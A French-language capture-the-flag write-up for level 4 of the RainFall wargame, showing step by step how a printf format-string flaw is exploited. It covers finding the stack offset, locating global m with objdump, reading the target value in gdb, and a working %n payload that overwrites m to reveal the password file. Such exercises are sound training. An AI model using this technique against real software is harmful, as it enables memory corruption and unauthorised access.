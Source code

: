 # Level 4

Dans ce programme nous voyons 2 fonctions, n() et p()
La fonction p() fait un appel a printf de maniere non securise, nous allons donc l'exploiter pour ecraser la valeur de la variable globale "m". Car la valeur de m est ensuite verifie dans une condition if pour nous afficher le .pass avec un appel a system et /bin/cat.

Nous allons d'abord chercher l'offset sur lequel ce printf ecrase la memoire:

```
$ python -c 'print("AAAA" + "%x." * 24)' | ./level4
AAAAb7ff26b0.bffff794.b7fd0ff4.00000000.00000000.bffff758.0804848d.bffff550.00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
```

Nous trouvons que c'est sur le 12eme octet.
Nous pouvons le verifier ainsi:

```
level4@RainFall:~$ python -c 'print("AAAA%12$p")' | ./level4
AAAA0x41414141
```

Nous cherchons ensuite l'adresse de la globale m

```
level4@RainFall:~$ objdump -t ./level4 | grep m
./level4:     file format elf32-i386
080481b0 l    d  .dynsym	00000000              .dynsym
080485b4 l    d  .eh_frame_hdr	00000000              .eh_frame_hdr
080485f8 l    d  .eh_frame	00000000              .eh_frame
08049710 l    d  .dynamic	00000000              .dynamic
00000000 l    d  .comment	00000000              .comment
08049808 l     O .bss	00000001              completed.6159
08048420 l     F .text	00000000              frame_dummy
080486f8 l     O .eh_frame	00000000              __FRAME_END__
08049710 l     O .dynamic	00000000              _DYNAMIC
00000000       F *UND*	00000000              system@@GLIBC_2.0
00000000  w      *UND*	00000000              __gmon_start__
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
08049810 g     O .bss	00000004              m
080484a7 g     F .text	0000000d              main
```

La derniere a faire est de trouver la valeur a mettre dans la globale m,
nous le faisons avec gdb:

```
level4@RainFall:~$ gdb ./level4
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) disass n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```

Finalement nous procedons a l'injection.
Le format "%Nd" remplace le `N` par un chiffre, ce qui nous permet de ne pas mettre les `N` octets nécessaires (Remplacer `"B" * 64` par `"%64d`)

```
$ (python -c 'print "\x10\x98\x04\x08"+"%"+str(0x1025540)+"d%12$n"') | ./level4
```

And we get the .pass !
